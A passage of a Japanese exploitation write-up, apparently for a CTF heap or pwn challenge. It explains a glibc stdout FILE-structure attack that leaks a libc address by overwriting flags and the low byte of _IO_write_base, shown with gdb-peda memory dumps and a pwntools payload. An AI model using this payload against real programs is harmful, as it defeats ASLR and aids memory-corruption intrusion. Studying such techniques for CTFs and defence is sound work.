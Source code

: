 先程の`_IO_2_1_stdout_`をもう少し覗いてみると次のようになっている。

```
gdb-peda$ x/32gx 0x7f69e77ec760
0x7f69e77ec760 <_IO_2_1_stdout_>:       0x00000000fbad2887      0x00007f69e77ec7e3
0x7f69e77ec770 <_IO_2_1_stdout_+16>:    0x00007f69e77ec7e3      0x00007f69e77ec7e3
0x7f69e77ec780 <_IO_2_1_stdout_+32>:    0x00007f69e77ec7e3      0x00007f69e77ec7e3
0x7f69e77ec790 <_IO_2_1_stdout_+48>:    0x00007f69e77ec7e3      0x00007f69e77ec7e3
0x7f69e77ec7a0 <_IO_2_1_stdout_+64>:    0x00007f69e77ec7e4      0x0000000000000000
0x7f69e77ec7b0 <_IO_2_1_stdout_+80>:    0x0000000000000000      0x0000000000000000
0x7f69e77ec7c0 <_IO_2_1_stdout_+96>:    0x0000000000000000      0x00007f69e77eba00
0x7f69e77ec7d0 <_IO_2_1_stdout_+112>:   0x0000000000000001      0xffffffffffffffff
0x7f69e77ec7e0 <_IO_2_1_stdout_+128>:   0x000000000a000000      0x00007f69e77ed8c0
0x7f69e77ec7f0 <_IO_2_1_stdout_+144>:   0xffffffffffffffff      0x0000000000000000
0x7f69e77ec800 <_IO_2_1_stdout_+160>:   0x00007f69e77eb8c0      0x0000000000000000
0x7f69e77ec810 <_IO_2_1_stdout_+176>:   0x0000000000000000      0x0000000000000000
0x7f69e77ec820 <_IO_2_1_stdout_+192>:   0x00000000ffffffff      0x0000000000000000
0x7f69e77ec830 <_IO_2_1_stdout_+208>:   0x0000000000000000      0x00007f69e77e82a0
```

`_IO_write_base`と`_IO_write_ptr`にあたるのはどちらも`0x7f69e77ec7e3`であり、ここは`_shortbuf`メンバに相当する。出力後なので同じ値を示しているが、元は`_IO_write_ptr`がここから1バイト先にあったので`\x0a`(にあたる改行)が出力され、2つが同じ値となったことでこれ以上出力されなくなった。

ではこの`_IO_write_base`の下位バイトを小さい方向へ書き換えるとどうなるかというと`_IO_write_ptr`を書き換えなければ1バイトなんていうケチケチした単位では無くもっと大きい範囲で出力が出来る。
もう既に`_IO_2_1_stdout_`内にlibcを指すポインタは結構あるのでそれを利用しても良いのだが今回は更に上の方にある数字を利用した。下の図で`0x7f69e77ec708`にあたる箇所に入っている`0x7f69e77ed8b0`なんかは都合が良さそうなのでここを狙う。

```
gdb-peda$ x/32gx 0x7f69e77ec700
0x7f69e77ec700 <_IO_2_1_stderr_+128>:   0x0000000000000000      0x00007f69e77ed8b0
0x7f69e77ec710 <_IO_2_1_stderr_+144>:   0xffffffffffffffff      0x0000000000000000
0x7f69e77ec720 <_IO_2_1_stderr_+160>:   0x00007f69e77eb780      0x0000000000000000
0x7f69e77ec730 <_IO_2_1_stderr_+176>:   0x0000000000000000      0x0000000000000000
0x7f69e77ec740 <_IO_2_1_stderr_+192>:   0x0000000000000000      0x0000000000000000
0x7f69e77ec750 <_IO_2_1_stderr_+208>:   0x0000000000000000      0x00007f69e77e82a0
0x7f69e77ec760 <_IO_2_1_stdout_>:       0x00000000fbad2887      0x00007f69e77ec7e3
0x7f69e77ec770 <_IO_2_1_stdout_+16>:    0x00007f69e77ec7e3      0x00007f69e77ec7e3
0x7f69e77ec780 <_IO_2_1_stdout_+32>:    0x00007f69e77ec7e3      0x00007f69e77ec7e3
0x7f69e77ec790 <_IO_2_1_stdout_+48>:    0x00007f69e77ec7e3      0x00007f69e77ec7e3
0x7f69e77ec7a0 <_IO_2_1_stdout_+64>:    0x00007f69e77ec7e4      0x0000000000000000
0x7f69e77ec7b0 <_IO_2_1_stdout_+80>:    0x0000000000000000      0x0000000000000000
0x7f69e77ec7c0 <_IO_2_1_stdout_+96>:    0x0000000000000000      0x00007f69e77eba00
0x7f69e77ec7d0 <_IO_2_1_stdout_+112>:   0x0000000000000001      0xffffffffffffffff
0x7f69e77ec7e0 <_IO_2_1_stdout_+128>:   0x000000000a000000      0x00007f69e77ed8c0
0x7f69e77ec7f0 <_IO_2_1_stdout_+144>:   0xffffffffffffffff      0x0000000000000000
gdb-peda$ 
```

事前にこの値とlibc配置アドレスとのオフセットを計算しておけばここがリークした時にlibc leakが出来る

というわけで`_IO_2_1_stdout_`へ書き込む時のペイロードは次のようになる。

```python
payload = p64(0xfbad1880) \
        + p64(0) \
        + p64(0) \
        + p64(0) \
        + b"\x08"
```
